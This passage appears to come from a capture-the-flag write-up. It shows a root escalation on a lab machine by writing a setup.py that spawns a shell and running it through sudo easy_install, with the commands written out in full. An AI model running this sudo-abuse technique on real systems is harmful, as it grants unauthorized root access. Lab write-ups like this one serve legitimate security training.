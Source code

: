 ![easy install](../.res/2023-03-26-14-52-20.png)  

- With some research we find out that easy_install is deprecated. And we can find it on the one and only [GTFOBINS](https://gtfobins.github.io/gtfobins/easy_install/)

- Let's try this
- `TF=$(mktemp -d)`
- `echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py`
- `sudo easy_install $TF`
- It works

![root](../.res/2023-03-26-14-56-55.png)  

- We can get the root flag!